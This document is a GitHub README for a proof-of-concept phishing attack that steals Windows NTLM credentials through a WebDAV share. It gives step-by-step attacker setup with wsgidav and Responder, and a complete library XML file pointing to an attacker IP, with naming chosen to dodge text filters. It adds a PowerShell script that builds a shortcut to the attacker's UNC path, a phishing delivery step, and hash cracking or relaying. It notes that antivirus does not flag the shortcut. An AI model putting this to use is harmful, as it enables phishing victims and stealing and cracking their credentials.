 # lnk-with-Webdav-POC
Windows Defender and Avira AV Does not flag the Lnk as malicious.
##Tested on
```
Windows 10 Pro
BuildNumber     : 19045
Version         : 10.0.19045

Windows 11
BuildNumber     : 22000
Version         : 10.0.22000
```
### Requirements ⚙️
* Python3

### Setup 🛠️
<b> On the kali linux attacker machine, on the terminal</b> <br />
```
pip3 install wsgidav
mkdir /home/kali/webdav

Running the wsgidav hosted on /home/kali/webdav
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/ 
```
<b> On the kali linux attacker machine, on a new tab of the terminal. run responder to capture NTLM hash</b> <br />
```
responder -I eth0 -dwFP -v
```
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/c1f59930-d518-4fa1-9cd2-4f42799c80d5)
Ensure that SMB server is on
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/1715fa7b-bf04-4c1a-97e1-7e967ddab24f)

### On windows attacker machine

## Creating the Window library file to connect to our webdav share. 
This file can be used as a virtual containers to carry our payloads to avoid suspicions. 
we can use Notepad or any text editor could also be used to create the file.

We can save the file HRFolder.
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/c660329d-b3db-4fca-be8a-5f429461f8f4)

Library files consist of three major parts and are written in XML to specify the parameters for accessing remote locations. The parts are General library information, Library properties, and Library locations. Let's build the XML code by adding and explain the tags. We can refer to the Library Description Schema6 for further information. We'll begin by adding the XML and library file's format version.
The listing below contains the namespace7 for the library file. This is the namespace for the version of the library file format starting from Windows 7. The listing also contains the closing tag for the library description. All of the following tags we cover will be added inside the libraryDescription tags.
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
</libraryDescription>
```
Next, we'll add two tags providing information about the library. The name tag specifies the name of this library. We must not confuse this with an arbitrary name we can just set randomly. 
We need to specify the name of the library by providing a DLL name and index. We can use @shell32.dll,-34575 or @windows.storage.dll,-34582 as specified on the Microsoft website. 
We'll use the latter to avoid any issues with text-based filters that may flag on "shell32". 
The version tag can be set to a numerical value of our choice, for example, 7.
```
<name>@windows.storage.dll,-34582</name>
<version>7</version>
```
Name and Version Tags of the Library

Next, we'll add the isLibraryPinned11 tag. This element specifies if the library is pinned to the navigation pane in Windows Explorer. 
The next tag we'll add is iconReference, which determines what icon is used to display the library file. We must specify the value in the same format as the name element. 
We can use imagesres.dll to choose between all Windows icons. We can use index "-1002" for the Documents folder icon.
```
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1002</iconReference>
```


The next tag marks the beginning of the library locations section. In this section, we specify the storage location where our library file should point to. We'll begin by creating the searchConnectorDescriptionList, tag which contains a list of search connectors defined by searchConnectorDescription. 
Search connectors are used by library files to specify the connection settings to a remote location. 

We can specify one or more searchConnectorDescription elements inside the searchConnectorDescriptionList tags. 
For this example we only specify one. If we used more than 1 folder, it will display contents from other folders as well making it look more legitimate.
Inside the description of the search connector, we'll specify information and parameters for our WebDAV share. The first tag we'll add is the isDefaultSaveLocation tag with the value set to true. 
This tag determines the behavior of Windows Explorer when a user chooses to save an item. To use the default behavior and location, we'll set it to true. Next, we'll add the isSupported tag, which is not documented in the Microsoft Documentation webpage, and is used for compatibility. We can set it to false.

**The most important tag is url,which we need to point to our previously-created WebDAV share over HTTP. It is contained within the simpleLocation tags, which we can use to specify the remote location in a more user-friendly way as the normal locationProvider element.**
```
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://<your webdav share url></url></simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```
The entire XML would look something like this
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>7</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.1.67</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
## Creating the Windows shortcut payload using powershell
Run this on powershell to create the shortcut on your desktop, change the $shortcutPath accordingly 
```
$targetPath = "\\192.168.1.67\test"
$shortcutPath = "C:\Users\JJ\Desktop\HRdocuments.lnk"

# Create a WScript.Shell object 
$shell = New-Object -ComObject WScript.Shell
 # Create a shortcut object 
$shortcut = $shell.CreateShortcut($shortcutPath)
 # Set the target path of the shortcut
 $shortcut.TargetPath = $targetPath
 # Save the shortcut 
$shortcut.Save()
```
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/455d1c59-c587-49b1-8085-87cbf52687ef)

### Next, we could move the .lnk inside the webdav share directory
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/eb2f568c-06d1-4caa-a248-06d89dbd132a)

# Send the Windows library file to the victim, for e.g phishing email.
Giving instructions for the user to click on the hr folder, and the windows shortcut.
The responder should be able to harvest the credentials hash successful. We can then either crack the hash for the user password or we can relay them to a tool like ntlmrelayx, or pass the hash directly for authentication as potential exploitations
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/154a6e66-51cb-4b7c-a0cc-233959918bcd)

## Using hashcat to crack the NTLM hash recovered
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/2c926b5a-bb79-45b6-820b-650dd96d8df7)
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/b9b70946-b037-49dc-a334-d86cf4dcd92a)
